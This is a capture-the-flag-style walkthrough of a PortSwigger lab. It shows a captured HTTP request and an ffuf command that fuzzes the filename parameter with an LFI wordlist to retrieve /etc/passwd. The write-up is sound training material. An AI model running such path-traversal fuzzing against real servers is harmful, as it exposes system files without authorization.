

# File path traversal, traversal sequences blocked with absolute path bypass

```
❓

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.
```

Similar to  we are tasked with retrieving the contents of the `/etc/passwd` file but this time, there are filters in place to block absolute file path traversal. Let’s start with grabbing a request that contains the `filename` parameter and try fuzzing it with ffuf.

```bash
GET /image?filename=FUZZ HTTP/2
Host: 0a32004904e5632a8062218600ed003b.web-security-academy.net
Cookie: session=B1vUBJeqtwTVdn7c0YvLe1R8fNayU3BH
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a32004904e5632a8062218600ed003b.web-security-academy.net/filter
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

```bash
ffuf --request req.txt -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ
```

After a few seconds a request leading to `/etc/passwd` can be seen, which also completes the lab.


